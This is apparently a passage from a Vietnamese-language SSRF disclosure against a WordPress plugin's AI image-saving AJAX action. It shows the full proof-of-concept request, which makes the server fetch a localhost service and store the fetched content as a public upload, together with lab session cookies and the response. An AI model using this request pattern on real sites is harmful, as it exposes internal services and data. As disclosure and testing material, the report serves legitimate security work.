 ```txt {filename="requirements.txt"}
hello
```

### Proof of Concept (PoC)

Gửi request với `image_url` trỏ đến local service `http://127.0.0.1:8001/test` bằng user **Author**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?loggedout=true&wp_lang=en_US
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C3cc12be38f8f94048309b7fcd31bd2187065311afecea7df5a9f01f5a207072b; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C38f09626eae6d08f6cdb9cd1ce781da26c2acdd8ef2fd1822d84a6d76c6c95ad; wp-settings-time-4=1761017121

action=save_ai_generated_image&admin_nonce=9433571df4&prompt=abc&image_url=http://127.0.0.1:8001/test
```

**Response**:

```json
{
  "success": true,
  "data": {
    "attachment_id": 355,
    "url": "http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png",
    "alt": "abc",
    "title": "abc",
    "caption": "",
    "description": ""
  }
}
```

**Result**:

Đọc file được lưu `http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png` bằng **BurpSuite**

![Result](result.png "Nội dung đọc được từ local service")

> [!INFORMATION]
> Không thể đọc nội dung trên ở trình duyệt, vì nội dung trong `ai-generated-abc-1761019403.png` (`'hello'`) không phù hợp với **Content-Type: image/png** trả về, nên trình duyệt render ra lỗi.

### Conclusion
